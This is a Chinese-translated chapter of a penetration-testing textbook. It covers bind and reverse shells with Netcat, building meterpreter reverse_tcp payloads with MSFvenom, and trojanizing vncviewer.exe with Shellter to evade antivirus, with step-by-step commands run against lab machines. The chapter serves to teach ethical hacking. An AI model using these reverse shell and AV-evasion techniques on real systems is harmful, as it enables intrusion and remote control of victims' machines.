


# 第八章：8 网络渗透测试理解

## 加入我们的书籍社区，参与 Discord 讨论

[`packt.link/SecNet`](https://packt.link/SecNet)当进入网络安全攻防领域时，对于有志成为道德黑客和渗透测试人员的人来说，掌握网络渗透测试的重要性以及设置反向和绑定 Shell 的常见技巧至关重要。这些技巧帮助渗透测试人员与目标系统之间建立攻击机与被攻击系统的连接。此外，学习如何开发自定义负载并逃避反恶意软件检测，有助于渗透测试人员判断目标组织的网络防御是否具备检测恶意代码的能力。在本章中，您将了解网络渗透测试的重要性，以及它如何帮助组织识别其资产中的隐藏安全漏洞，进一步理解攻击者是如何攻破系统的。此外，您将获得使用绑定和反向 Shell 的实操经验，并学习如何开发和隐匿恶意负载，以规避反恶意软件程序的检测。最后，您还将学习如何使用无线网络适配器，并利用它们监控周边无线系统。在本章中，我们将涵盖以下主题：

+   网络渗透测试介绍

+   使用绑定和反向 Shell

+   反恶意软件逃避技巧

+   使用无线适配器

+   管理和监控无线模式

让我们开始吧！

## 技术要求

为了跟随本章的练习，请确保您已满足以下硬件和软件要求：

+   Kali Linux - [`www.kali.org/get-kali/`](https://www.kali.org/get-kali/)

+   Shelter - [`www.shellterproject.com/introducing-shellter/`](https://www.shellterproject.com/introducing-shellter/)

+   Alfa AWUS036NHA 无线 B/G/N USB 适配器

+   Alfa AWUS036ACH 长程双频 AC1200 无线 USB 3.0 Wi-Fi 适配器

并非所有无线网络适配器都支持监控模式和数据包注入。有时，厂商会对其产品的芯片版本做小的修改，从而导致无线网络适配器无法在渗透测试人员的机器上以监控模式运行。此外，某些无线网络适配器可能无法开箱即用，您需要下载并在 Kali Linux 机器上编译驱动程序。

## 网络渗透测试介绍

网络渗透测试是由道德黑客和渗透测试员采用的系统性方法和技术，用以模拟对目标组织及其系统和网络的真实网络攻击，目的是发现潜在的安全漏洞，并提供实施对策和安全控制措施的建议，以减轻和防止真实对手对组织及其资产的入侵。在网络渗透测试的技术阶段，道德黑客或渗透测试员使用与真实对手相似的**战术、技术和程序**（**TTPs**）来测试组织安全团队的网络防御、监控和预防技术，并识别目标系统的安全缺陷。根据渗透测试技术阶段的发现，收集到的信息可以帮助更好地理解真实攻击者如何发现安全缺陷、攻击方法、可能使用的工具和基础设施来设置攻击并向目标投递有效载荷，以及如果发生真实攻击时对组织的系统和网络可能造成的影响。这类信息通常被称为**网络威胁情报**（**CTI**）。渗透测试员利用这些数据为利益相关者提供有关网络风险、安全漏洞类型及其严重性评级的洞察，并帮助组织解决安全漏洞，同时提升其安全防御能力。以下是网络渗透测试的典型阶段：

1.  确定范围 – 范围提供了对需要测试的系统和网络的明确理解，以及是否限制使用特定工具或技术。

1.  执行侦察 – 这是信息收集阶段，渗透测试员在目标上执行被动和主动侦察。

1.  扫描与枚举 – 扫描和枚举阶段通常用于收集有关目标的具体详细信息，如开放端口、运行服务、操作系统、识别用户账户、网络共享和目标系统的配置。

1.  漏洞分析 – 在这一阶段，渗透测试员分析前几个阶段收集到的数据，以识别目标上的潜在安全漏洞，评估漏洞的严重性和风险评级，并提出对策帮助组织改善其网络防御。

1.  利用漏洞 – 在这一阶段，道德黑客或渗透测试员尝试利用目标系统上发现的每个安全漏洞，使用手动和自动化技术来验证安全漏洞的存在，并获取目标系统的控制。

1.  利用后阶段 – 一旦目标系统被攻破，渗透测试人员将尝试进一步扩展他们在受侵系统中的立足点，并渗透到范围内的其他系统。在这个阶段，渗透测试人员可以识别目标系统上的其他安全漏洞。

1.  报告 – 报告是任何渗透测试过程中最重要的阶段之一。渗透测试人员需要向目标组织的利益相关者提供一份详细的技术报告和执行报告，报告内容包括安全评估、用于发现安全漏洞的技术、发现的安全漏洞以及如何改进目标系统安全态势的建议。

1.  修复 – 基于报告中的信息，组织可以实施必要的步骤，修复目标系统中已识别的安全漏洞。这个过程可能包括应用安全控制、打补丁以及改善系统和设备的配置。

网络渗透测试为组织提供了许多优势，例如通过主动识别资产上的安全漏洞，帮助公司保持在网络犯罪分子之前，同时确定真实攻击者如何能够入侵目标系统，并利用这些洞察力来改善和强化其系统和网络基础设施。此外，漏洞分析帮助组织更好地优先分配资源，实施补救措施，如优先解决最关键的安全漏洞。例如，具有安全漏洞风险评分为 8 的系统应优先于风险评分较低（如 3）的系统。然而，重要的是要考虑这些系统是否直接连接到互联网或在内部网络中。虽然一些专业人士可能认为风险评分的严重性应优先考虑，但需要注意的是，直接连接到互联网且风险评分较低的关键系统可能会被优先考虑，因为外部威胁行为者可以直接访问该系统，而不是内联网中的系统。每天，许多组织都在报告数据泄露事件。网络渗透测试帮助组织采取主动方法，识别和解决安全漏洞，从而减少未来真实网络攻击的风险。此外，这还帮助组织全面评估其网络防御，并确定其系统、网络和基础设施是否符合各种行业标准和框架。例如，处理支付卡系统的组织必须符合**支付卡行业数据安全标准** (**PCI DSS**)，才能在支付交易中提供敏感数据。尽管许多组织持续改进其网络安全策略，但进行网络渗透测试有助于组织评估其安全团队的事件响应和处理准备情况。如果组织无法有效识别和应对安全事件，威胁行为者将能够在被攻破的网络中扩大立足点，并可能对组织造成更多损害。定期进行安全评估的另一个重要好处是帮助组织领先于新兴的威胁。尽管许多组织拥有补丁管理系统，网络渗透测试帮助组织判断补丁管理流程是否存在任何低效之处，以及系统中是否存在可以被网络犯罪分子利用的安全漏洞。在接下来的几个章节中，你将了解 bind 和 reverse shell 的重要性，以及它们如何被道德黑客和渗透测试员利用。

## 使用 bind 和 reverse shell

**绑定 Shell**通常由渗透测试人员使用，用于在目标系统上逻辑性地绑定一个服务端口，以等待传入连接，这通常被称为*监听器*。例如，假设你的目标是一个具有公共 IP 地址的互联网脆弱服务器，而你的攻击者机器（如 Kali Linux）位于一个启用了**网络地址转换**（**NAT**）的路由器或防火墙后面。此外，如果源和目标之间存在防火墙，防火墙通常会配置为允许从内部网络到互联网的出站流量，但不允许反向流量。因此，如果互联网设备向私有网络上的系统发起连接，启用了 NAT 的路由器或防火墙会因安全原因自动终止（关闭/阻止）该连接。

> 在启用了 NAT 的路由器上，私有源 IPv4 地址会在路由器的面向互联网的接口上被转换为公共 IPv4 地址，然后发送到互联网。这意味着，互联网连接设备将看到发送方的地址为路由器或调制解调器上的公共 IPv4 地址，而不是私有网络中客户端的私有 IPv4 地址。NAT 防止源和目标设备之间的直接连接。

以下是渗透测试人员常见的绑定 Shell 属性：

+   绑定 Shell 是绑定到特定端口的 Shell，用于创建一个监听器，以接受来自远程机器的传入连接。

+   当远程机器与运行监听器并监听特定绑定端口的目标系统建立连接时，会在远程机器和目标系统之间创建一个 Shell。因此，提供了远程访问目标系统的方式。

+   绑定 Shell 通常由渗透测试人员使用，当目标系统的 IP 地址已知并且可以在其上配置监听器时。

如果渗透测试人员能够突破互联网上的一个脆弱系统，则可以将监听器绑定到 Windows 命令提示符或 Linux Shell，并指定目标系统的 IP 地址和绑定端口号。这使得渗透测试人员能够通过目标的公共 IP 地址和绑定端口号远程连接到目标系统，并在目标系统上获取绑定 Shell。下图展示了攻击者的机器与目标系统之间的绑定 Shell 的可视化表示：


如前图所示，攻击者机器（例如 Kali Linux）位于私有网络中，并且它在一个配置了允许出站流量访问互联网的防火墙后面。然而，渗透测试员希望在互联网上的目标系统上建立一个远程 shell。因此，渗透测试员需要攻破目标系统，并在目标的公共 IP 地址和端口号上设置监听器。渗透测试员可以使用 Netcat、Ncat 甚至 Metasploit 在目标与攻击者机器之间设置绑定 shell。这些是网络安全行业中常见的工具，适用于为监听器绑定 IP 地址和端口号。请记住，一旦系统之间建立了 shell，渗透测试员就能够通过网络在目标系统上远程执行命令。**反向 shell**是渗透测试员常用的另一种技术，用于从被攻破的系统到攻击者机器设置回调会话。与绑定 shell 不同，渗透测试员在其攻击者机器上设置监听器，然后发送指令到目标系统，以建立回调会话。例如，假设您已经攻破了一个位于内部网络上的目标系统，而另一个攻击者机器在云端运行并具有公共 IP 地址。如果您尝试在云端的攻击者机器与私有网络上的目标系统之间建立连接，目标组织的路由器或防火墙将自动终止会话。通过使用反向 shell，渗透测试员可以在云端的攻击者机器上配置监听器，并向目标机器发送指令，建立与监听服务器的连接，如下图所示：


以下是渗透测试员常用的绑定 shell 的常见属性：

+   渗透测试员在攻击者机器上设置监听器，并向目标系统发送指令，建立回调会话。

+   当目标系统与攻击者机器上的监听器建立会话时，会生成一个 shell，渗透测试员可以在目标上远程执行命令。

+   反向 shell 常用于渗透测试员无法直接访问目标机器的情况，特别是当目标机器位于启用了 NAT 的路由器或防火墙后面时。因此，对于被攻破的系统来说，建立与互联网的出站连接相对简单。

在接下来的几个子章节中，您将学习如何使用各种工具创建绑定和反向 shell。

### 使用 Netcat 进行远程 shell

在本练习中，你将学习使用 Netcat 进行远程 Shell 操作的基本知识。Netcat 是一款多用途工具，使 IT 专业人员能够通过**传输控制协议/互联网协议**（**TCP/IP**）在多个系统之间建立网络连接。此外，你还将学习如何设置监听器，以捕获来自远程设备通过网络传入的连接。在继续之前，请确保遵循以下指南：

+   Kali Linux 是攻击者机器，网络适配器连接在`192.168.42.0/24`（RedTeamLab）网络上。

+   Bob-PC 将作为目标主机运行，且也连接到`192.168.42.0/24`（RedTeamLab）网络。

+   使用本地管理员账户登录 Bob-PC。有关用户凭证，请参阅*第三章 - 高级渗透测试技巧设置*。

+   Kali Linux 将运行 Netcat 作为监听器，捕获任何传入的连接，而 Bob-PC 将用于建立到 Kali Linux 的 Netcat 会话。

要开始使用 Netcat 进行远程 Shell 操作，请按照以下指示进行操作：

1.  启动**Kali Linux**虚拟机，打开**终端**，并使用`ip address`或`ifconfig`命令来识别哪个接口连接到`192.168.42.0/24`网络，以及它的主机地址，如下所示：


如前面的截图所示，Kali Linux 在其`eth2`接口上有一个`192.168.42.27`地址，且连接到`192.168.42.0/24`网络。

1.  在 Kali Linux 中，有一组预加载的 Windows 二进制文件，这些文件对道德黑客和渗透测试人员非常有用。这些 Windows 二进制文件之一就是适用于 Windows 的**Netcat**。让我们在 Kali Linux 虚拟机上设置一个基于 Python 的 Web 服务器，将 Netcat 文件传输到目标系统。请在**Kali Linux**中使用以下命令，在 Windows 二进制文件目录下设置 Web 服务器：

```
kali@kali:~$ cd /usr/share/windows-binaries
kali@kali:/usr/share/windows-binaries$ python3 -m http.server 8080
```

一旦 Python 网络服务器在`/usr/share/windows-binaries`目录下运行，任何连接到 Kali Linux 的用户都能够查看并下载该目录中的文件。

1.  接下来，开启**Bob-PC**虚拟机并使用本地管理员账户登录。在登录屏幕上，点击**其他用户**，输入用户名：`Bob-PC\bob`和密码：`P@ssword2`，如以下截图所示：


1.  在**Bob-PC**上，打开网页浏览器，连接到`http://<Kali-Linux-address>:8080`并下载**nc.exe**文件，如下所示：


下载完**nc.exe**文件后，将其复制/移动到**Bob-PC**中的`C:\Windows\System32`目录。下载文件后，可以通过按下键盘上的`CTRL + Z`退出 Python 网络服务器。

1.  接下来，要在端口`1234`上设置一个 Netcat 监听器，请在**Kali Linux**上使用以下命令：

```
kali@kali:~$ nc -nlvp 1234
```

以下是前述命令的详细解析：

+   `-n`：指定仅使用 IP 地址，不执行域名系统（DNS）查询。

+   `-l`：指定监听传入连接。

+   `-v`：指定使用详细模式。

+   `-p`：指定监听端口号。

1.  接下来，在 **Bob-PC** 上，打开 **命令提示符** 并使用以下命令建立到 Kali Linux 的 Netcat 连接：

```
C:\Users\bob> nc -nv 192.168.42.27 1234
```

1.  一旦从 **Bob-PC**（客户端）到 **Kali Linux**（监听器/服务器）建立会话，你可以在任一系统上输入消息，消息会发送到另一端，如下所示：


如上图所示，消息在 Bob-PC 上输入并在 Kali Linux 上的 Netcat 监听器中接收到。

1.  要终止会话，请使用键盘上的 `CTRL + Z` 键组合。

在本练习中，你已经学习了如何在两台主机之间建立远程 shell，并建立通信通道。虽然这是一项基础技术，但它为你提供了一些关于远程 shell 如何在网络中主机之间操作的实际见解。接下来，你将学习如何使用 Netcat 设置绑定 shell。

### 设置绑定 shell

在本练习中，你将学习如何将 Linux 原生 shell，即 **Bourne Again SHell**（**BASH**），绑定到监听器中。这项技术使得远程主机能够建立网络连接并在 Netcat 服务器上执行远程命令。要开始设置绑定 shell，请使用以下说明：

1.  启动 **Kali Linux** 虚拟机，打开 **终端**，并使用以下命令创建一个 Netcat 监听器，将本地 BASH shell 绑定到监听器：

```
kali@kali:~$ nc -nlvp 1234 -e /bin/bash
```

> 如果在 Microsoft Windows 系统上设置监听器，`nc -nlvp 1234 -e cmd.exe` 命令将使你能够使用 Netcat 将 Windows 命令提示符绑定到监听器。

1.  接下来，启动 **Bob-PC** 虚拟机并使用本地管理员帐户（`Bob-PC\bob` | `P@ssword2`）登录。然后，打开 **命令提示符** 并使用以下命令建立与 Kali Linux（监听器）的 Netcat 会话：

```
C:\Users\bob> nc -nv 192.168.42.27 1234 
```

1.  一旦从 Bob-PC 到 Kali Linux 建立会话，你就可以在 Windows 命令提示符中输入基于 Linux 的命令，这些命令会在 Kali Linux 上远程执行，如下所示：


如上图所示，`whoami` 命令在绑定 shell 上执行，并在 Kali Linux 上远程执行，结果返回。同样，`pwd` 命令用于确定绑定 shell 上 Kali Linux 当前的工作目录。

> 要在使用绑定 shell 时获取 Linux 终端界面，请使用 `python -c 'import pty; pty.spawn("/bin/bash")'` 命令。

完成本练习后，你已经学会了如何在运行 Netcat 监听器的系统上设置绑定 Shell，使远程用户能够建立连接到 Netcat 监听器并在目标系统上获得远程绑定 Shell，从而执行远程命令。接下来，你将学习如何在网络上设置主机之间的反向 Shell。

### 设置反向 Shell

在本练习中，你将学习如何通过网络将反向 Shell 从目标系统设置到你的攻击者机器。我们将使用 Bob-PC 作为目标系统，Bob-PC 将发起反向连接到我们的攻击者机器——Kali Linux。要开始此练习，请按照以下说明操作：

1.  启动**Kali Linux**虚拟机，打开**终端**，并使用以下命令设置 Netcat 监听器，以捕捉任何传入的连接：

```
kali@kali:~$ nc -nlvp 1234
```

1.  接下来，启动**Bob-PC**并使用本地管理员帐户登录，用户名：`Bob-PC\bob`，密码：`P@ssword2`。

1.  在**Bob-PC**上，打开**命令提示符**并使用以下命令创建反向连接到 Kali Linux 上的监听器，同时将命令提示符 Shell 发送到 Kali Linux：

```
C:\Users\bob> nc -nv 192.168.42.27 1234 -e cmd.exe
```

> 如果你使用的是基于 Linux 的系统作为客户端，请使用`nc –nv 10.1.1.2 9999 -e /bin/bash`命令将 Linux bash Shell 绑定到 Netcat 连接。

下图显示了 Bob-PC 成功连接到 Kali Linux 上的 Netcat 监听器：



1.  在 Kali Linux 虚拟机上，你现在可以看到来自 Windows 机器（Bob-PC）的反向 Shell，显示在 Linux 终端上，如下所示：


如上图所示，Windows 机器能够成功连接到 Netcat 监听器并提供本地 Shell，使 Kali Linux 上的远程用户能够执行远程命令。完成此部分后，你已经学会了如何使用 Netcat 创建反向 Shell。然而，请记住，Netcat 不会加密 Netcat 客户端和服务器之间的消息，这可能导致被检测到。不过，值得注意的是，Ncat 和 Socat 都可以在处理远程 Shell 时提供主机系统之间的数据加密。在下一部分，你将学习如何创建自定义的反向 Shell 负载并实施防病毒逃避技术。

## 防病毒逃避技巧

作为一名有抱负的道德黑客和渗透测试员，你将开发针对特定目标的自定义载荷，例如运行 Windows 和 Linux 操作系统的系统。此外，如果你进行移动渗透测试，你将为 Android 和 iOS 等移动操作系统创建载荷。更重要的是，你需要考虑目标系统是否运行任何旨在检测和防止恶意代码的反恶意软件程序。如果目标系统安装了反恶意软件应用程序，无论是像 Microsoft Defender Antivirus（有时称为 Windows Defender）这样的本地应用程序，还是商业解决方案，它们的设计目的是检测并阻止任何恶意代码、应用程序或服务在主机系统上运行。这意味着，目标系统上的反恶意软件解决方案很可能会将你的自定义载荷识别为恶意代码并阻止其运行，同时通知你的目标。有多种工具和技术通常被网络安全专业人员，如渗透测试员，用来确定他们的自定义载荷是否能够绕过目标系统上的威胁检测解决方案，如反恶意软件。此外，渗透测试员通常创建自定义载荷，以便从目标系统建立反向连接回他们的计算机，并在获得目标系统的控制权后提升用户权限。因此，深入理解反恶意软件解决方案用于识别潜在威胁和可疑活动的各种技术，对于改进自定义载荷的开发以避免被检测是至关重要的。由于反恶意软件厂商持续改进其解决方案，以检测和阻止互联网上的新兴威胁，道德黑客和渗透测试员需要确保他们的自定义载荷可以避开检测，否则它将在被检测时立即被隔离或删除。本节内容并非面向高级学习者，也不专注于高级规避技术，而是为渗透测试员提供常见规避技术的入门知识。然而，本节的目的是提供常见反恶意软件解决方案的威胁识别技术基础，以及在为渗透测试开发自定义载荷时如何使用规避技术。以下是反恶意软件解决方案用于检测系统和网络中潜在威胁的各种技术：

+   **基于签名的**：基于签名的检测是威胁检测和防护系统中最常见的技术之一，也许是较旧的技术，例如反恶意软件、**入侵检测系统**（**IDS**）和**入侵防御系统**（**IPS**）。该技术使反恶意软件引擎能够在文件、应用程序或网络流量中查找匹配的代码或模式。一旦发现匹配，系统就会触发警报，反恶意软件应用程序将采取措施，防止威胁在系统或网络中扩展其立足点。

使用基于签名的检测方法的缺点是，反恶意软件解决方案依赖于已知签名来识别恶意软件。例如，如果互联网上出现了新的威胁，而反恶意软件解决方案没有匹配的签名，那么该威胁就可能侵入组织及其系统，直到反恶意软件厂商的威胁情报团队检测、分析并将带有新签名的更新推送到其解决方案中。 因此，组织需要确保其威胁检测和防护解决方案拥有有效的许可证（如果需要），并且已更新厂商的最新版本。

+   **基于行为的**：在基于行为的威胁检测中，如果反恶意软件解决方案检测到主机系统中的文件和应用程序超出正常参数运行，通常会将其置于沙箱环境中进一步观察和分析，以判断它是否是威胁。在沙箱环境中，疑似或潜在有害的应用程序在虚拟化空间中执行，这使得反恶意软件程序能够在允许其在主机内存空间中运行之前，更深入地检查是否存在任何真实的潜在威胁或危险。

+   **基于启发式的**：在基于启发式的威胁检测中，反恶意软件程序通常需要预定义的规则来帮助其判断文件或应用程序是否对系统或网络有害。此外，算法还被用来判断可执行文件或运行中的应用程序的指令中是否存在任何恶意代码，这些代码可能会对主机系统造成损害或数据丢失。

以下是常见的用于执行静态恶意软件分析的在线平台：

+   [`www.virustotal.com/`](https://www.virustotal.com/)

+   [`cuckoo.cert.ee/`](https://cuckoo.cert.ee/)

+   [`app.any.run/`](https://app.any.run/)

虽然防病毒和反恶意软件厂商通常会实现一种或多种上述技术，但网络安全行业不断发展，反恶意软件软件中不断出现新的检测方法。在接下来的子章节中，你将学习如何使用各种反恶意软件规避技术创建自定义有效载荷。

### 使用 MSFvenom 对有效载荷进行编码

**Metasploit Framework Venom** (**MSFvenom**) 通常被渗透测试人员用来制作自定义有效载荷，以进行漏洞利用、**远程代码执行** (**RCE**) 和目标系统上的权限提升。此外，该工具还允许渗透测试人员对有效载荷进行编码和混淆，以避开威胁检测系统，如 IDS 和 IPS。要开始使用 MSFvenom 生成和编码自定义有效载荷，请使用以下指令：

1.  首先，启动 **Kali Linux** 虚拟机并登录到桌面。

1.  接下来，打开 **终端**，使用 `ip address show eth1` 或 `ifconfig eth1` 命令来确定 Kali Linux 上 `eth1` 适配器的 IP 地址，如下所示：


网络适配器的 IP 地址将在下一步中用于指定回调地址或本地主机地址，生成自定义有效载荷时使用。

1.  接下来，使用以下命令生成反向 Shell 有效载荷：

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.50 LPORT=1234 -f exe -o payload1.exe
```

以下是对前一行命令中使用的所有参数的详细解释：

+   `-p` – 允许你指定有效载荷。`msfvenom --list payloads` 命令会列出所有支持的有效载荷。

+   `LHOST` – 允许你指定回调地址，例如将 Kali Linux 的 IP 地址作为攻击者机器的地址。

+   `LPORT` – 指定攻击者机器上的监听端口，在对目标系统执行有效载荷之前需要打开该端口。

+   `-f` – 该语法用于指定输出格式。`msfvenom --list formats` 命令会列出所有支持的输出格式。

+   `-o` – 指定输出文件的名称。默认情况下，有效载荷存储在当前工作目录中，使用 `pwd` 命令可以验证当前目录。

以下截图显示自定义有效载荷成功生成：


1.  接下来，在 Kali Linux 中打开网页浏览器，访问 [`www.virustotal.com`](https://www.virustotal.com)，并上传新生成的有效载荷以查看其检测状态，如下所示：


如前所示的截图，超过 50 个来自不同厂商的反恶意软件传感器检测到自定义有效载荷为潜在威胁。如果我们将这个自定义有效载荷上传到运行任何这些反恶意软件程序的目标系统，它会立即被检测并删除。因此，阻止我们执行有效载荷以获取反向 Shell。

> 请记住，一旦你将文件提交到 VirusTotal 并被标记为恶意文件，该恶意文件的哈希值也会与其他防病毒和安全供应商共享。因此，恶意有效载荷在目标机器上的有效使用时间会大大缩短。

1.  接下来，让我们使用 `shikata_ga_nai` 编码模块对有效载荷进行编码，并执行 20 次编码迭代，以降低自定义有效载荷的威胁检测评分，使用以下命令：

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.50 LPORT=1234 -e x86/shikata_ga_nai -i 20 -f exe -o payload2.exe
```

1.  在生成新的有效载荷后，将其上传到 VirusTotal 以确定威胁检测评分，如下所示：


如前面截图所示，虽然这个新的自定义有效载荷包含了使用 `x86/shikata_ga_nai` 编码模块进行的 20 次编码迭代，但它仍然被许多反恶意软件传感器检测到。然而，`x86/shikata_ga_nai` 编码模块在使用 MSFvenom 时通常是推荐的。

1.  接下来，让我们生成另一个自定义有效载荷，并使用以下命令将其嵌入到可执行文件中：

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.50 LPORT=1234 -x /usr/share/windows-binaries/whoami.exe -e x86/shikata_ga_nai -i 20 -f exe -o payload3.exe
```

1.  接下来，将新的有效载荷上传到 VirusTotal 以确定威胁评分，如下所示：


如前面截图所示，`payload3.exe` 文件的检测评分低于之前的自定义有效载荷。为了确定目标系统是否运行了特定的反恶意软件解决方案，重要的是枚举目标系统上正在运行的服务和应用程序，然后在实验室环境中测试该有效载荷，确保其按预期工作，之后再将其交付给目标。完成此练习后，你已经学会了如何通过生成有效载荷来使用 MSFvenom 降低威胁检测评分。接下来，你将学习如何使用 Shellter 创建不容易被反恶意软件程序检测到的有效载荷。

### 使用 Shellter 创建自定义有效载荷

**Shellter** 是一种反恶意软件规避工具，通常被道德黑客和渗透测试人员用来自动化创建和编码自定义有效载荷的过程，以规避威胁检测系统。Shellter 负责生成 shellcode 并将其注入到受信任的 Microsoft Windows 32 位应用程序中。当自定义有效载荷在目标系统上执行时，受信任的文件会像应用程序无害一样执行，但自定义有效载荷（shellcode）则在后台的内存空间中执行。要开始使用 Shellter 生成自定义有效载荷，请按照以下说明操作：

1.  启动 **Kali Linux** 虚拟机并登录到桌面。

1.  接下来，打开 **Terminal** (#1)，并使用以下命令安装 **Shellter**：

```
kali@kali:~$ sudo apt update
kali@kali:~$ sudo apt install shelter
```

1.  接下来，使用以下命令设置和配置 **Shellter** 的工作环境，并安装 **Wine32**：

```
kali@kali:~$ sudo dpkg --add-architecture i386
kali@kali:~$ sudo apt update
kali@kali:~$ sudo apt install wine32
```

1.  接下来，使用以下命令列出 Kali Linux 上的一组常见 Windows 二进制文件：

```
kali@kali:~$ ls -l /usr/share/windows-binaries/
```

如下图所示，有一些有用的二进制文件，对于道德黑客和渗透测试人员来说非常有用：


1.  接下来，让我们使用以下命令将 `vncviewer.exe` 文件复制到当前工作目录：

```
kali@kali:~$ cp /usr/share/windows-binaries/vncviewer.exe /home/kali 
```

此外，`cp /usr/share/windows-binaries/vncviewer.exe /home/kali ./`命令可以用来将文件复制到当前工作目录，而不需要指定完整的输出目录。由于在前面的步骤中我们已在 Kali Linux 上安装了额外的包，建议注销并重新登录，以确保最新的包被应用。

1.  接下来，使用以下命令在 Kali Linux 上启动 Shellter 应用程序：

```
kali@kali:~$ sudo shelter
```

1.  接下来，当 Shellter 窗口出现时，你将获得选择自动模式或手动模式的选项，输入`A`并按`Enter`键以应用自动模式，如下所示：


1.  接下来，Shellter 将需要一个**便携式可执行文件**（**PE**）。在`/home/kali`目录中指定`vncviewer.exe`文件，如下所示：


1.  Shellter 将决定在哪个位置注入 shellcode 到 PE 文件中。一旦此过程完成，输入`Y`并按`Enter`键以启用隐身模式，如下所示：


1.  接下来，配置要附加到 PE 文件的载荷，使用以下配置：

    +   选择`L`来列出可用的载荷。

    +   按索引选择载荷：`1 – Meterpreter_Reverse_TCP`。

    +   设置`LHOST`为你 Kali Linux 机器的 IP 地址。

    +   设置`LPORT`为 Kali Linux 上的监听端口。

以下截图展示了预期的配置：


一旦自定义载荷成功编译，以下窗口将会出现：


1.  接下来，访问[`www.virustotal.com/`](https://www.virustotal.com/)并上传编码后的`vncviewer.exe`文件，以确定其威胁评级，如下所示：


如前所示，威胁检测评级低于由 MSFvenom 生成的那些载荷。

1.  接下来，使用以下命令设置一个 Meterpreter 监听器，通过 Metasploit 捕获从目标系统执行后的反向 Shell：

```
kali@kali:~$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.30.1.50
msf6 exploit(multi/handler) > set LPORT 5678
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > exploit
```

以下截图展示了前述命令的执行情况：


以下是前述命令序列的解析：

+   `windows/meterpreter/reverse_tcp`载荷确保当连接被检测到时，Metasploit 会将此载荷发送到目标系统，该载荷将在内存中执行并创建一个反向 Shell 回到 Kali Linux 机器。

+   `LHOST`和`LPORT`参数用于设置 Kali Linux 上的本地 IP 地址和监听端口。

+   `AutoRunScript post/windows/manage/migrate`命令确保一旦从受害者系统与 Kali Linux 建立连接，Metasploit 将自动将目标系统上的进程迁移到另一个进程，从而减少被检测的机会。

+   `exploit`命令用于在 Metasploit 中执行载荷或利用模块。

1.  接下来，让我们将自定义负载交付到如**Metasploitable 3**的 Windows 系统上，该系统位于我们虚拟实验室环境中的`172.30.1.0/24`网络。打开 Kali Linux 中的新**Terminal**（#2），并使用以下命令启动 Python3 网络服务器：

```
kali@kali:~$ python3 -m http.server 8000
```

Python3 网络服务器将使我们能够从 Kali Linux 机器下载文件到实验环境中的其他系统。

1.  接下来，启动**Metasploitable 3**虚拟机并使用用户名`Administrator`和密码`vagrant`登录到桌面。

1.  在**Metasploitable 3**中，打开网页浏览器并访问`http://172.30.1.50:8000/vncviewer.exe`下载并保存负载。

1.  接下来，在**Metasploitable 3**上执行`vncviewer.exe`文件，注意反向 Shell 已在**Kali Linux**上的**Terminal #1**捕获，如下所示：


如前所示的截图所示，Metasploit 监听模块捕获了来自`172.30.1.48`的反向连接，然后交付了一个附加负载以建立 Meterpreter shell 并将运行的进程 ID 迁移到受害系统上。此外，使用 Meterpreter 中的`sysinfo`命令可以让我们获取关于受损系统的系统信息。

> 一旦获得 Meterpreter shell，使用`help`命令查看执行操作和收集受损机器信息的命令列表。

并非所有基于 Windows 的可执行文件都能与 Shellter 一起使用。在使用 Shellter 时，确保 Shellter 编码的 PE 文件在目标系统上运行足够长的时间，以便从 Kali Linux 向目标系统交付阶段性负载，这是非常重要的。

1.  最后，使用 Meterpreter 中的`getuid`命令来确定运行我们负载的用户账户，如下所示：


如上图所示，负载作为目标系统上的管理员用户账户运行。完成这一部分后，你已经学会了如何在目标系统主机上创建、编码和交付负载。本节为你介绍了网络攻击链中的武器化和交付阶段。此外，你还学会了如何识别负载是否具有高威胁检测评级，并发现减少反恶意软件检测的常见技术。在下一部分中，你将学习如何配置无线适配器以监控 Wi-Fi 网络上的附近流量。

## 使用无线适配器

